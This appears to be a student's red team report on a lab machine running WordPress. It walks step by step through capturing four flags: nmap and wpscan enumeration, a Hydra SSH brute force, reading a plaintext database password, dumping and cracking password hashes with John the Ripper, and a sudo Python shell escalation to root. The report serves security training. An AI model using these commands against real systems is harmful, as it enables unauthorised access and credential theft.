 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

$ nmap -A 192.168.1.0/24
  - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/1.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Improper configured SSH
  - WordPress Enumation
  - Weak Password Implementation
  - No file security permission implemented
  - Use of weak password salted hashes
  - Python root escalation privileges

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploits Used**
      - WPScan to enumerate users of the Target 1 WordPress site
       - wpscan --url http://192.168.1.110 --enumerate u
       - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/2.png)
    - Targeting User Michael
      - Executed Hydra Brute Force Attack
        - The following command was performed:
        - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
        - Password: Michael
        - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/3.png)
    - Capturing Flag 1: After SSH Brute Force Attack as Michael I traversed through directories and files.
      - Found Flag1 in  var/www/html folder at root in service.html in a HTML comment below the footer.
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
  - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/4.png)
      - Using these commands
        - cd ../
        - cd /var/www/html
        - ls -l
        - nano service.html
  - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/5.png)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit covered in flag1 to gain access
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
        - cd ../
        - cd /var/www
        - find / i-name flag*
        - cat flag2.txt
  - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/6.png)
  - `flag3` : afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Previous exploit covered in flag1 and flag2
      - Captured flag3 Accessing MySQL database
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database
        - the wp-config.php displayed DB_Password in plaintext
        - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/7.png)
        - flag3 was found in wp_posts table in the wordpress database.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - show databases;
          - use wordpress;
          - show tables;
          - select * from wp_posts;
   - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/8.png)
   - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/9.png)
   - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/10.png)
  - `flag4` : 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Use of weak password salted hashes and Python root escalation privileges
      - Captured flag4 by retrieving user credentials from database, executed john the ripper to crack password hash and use Python Escalation Privileges to gain root access
        - Previously gained access to the database credentials as Michael from the sp-config.phpfile, cracking password hashes gathered from MySQL was the next step.
        - These user credentials are stored in the wp_users table of the wordpress database.
        - The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - SELECT ID, user_login, user_pass FROM wp_users;
        - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/11.png)
        - When I exported the hashes, I saved them individually as stevenhash.txt and michaelhash.txt and ran them against John the Ripper to crack the hashes.
          - Command:
            - john stevenhash.txt
            - john michaelhash.txt; the execution of performing the john the ripper kept on going; but we already had the password from the previous activity.
          - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
          - Command:
            - ssh steven@192.168.1.110
            - pw:pink84
            - [alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/12.png)
            - sudo -l
            - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
            - cd /root
            - ls
            - cat flag4.txt
      - ![alt text](https://github.com/chill0516/UTA-Final-Project/blob/main/OffensiveReport/13.png)
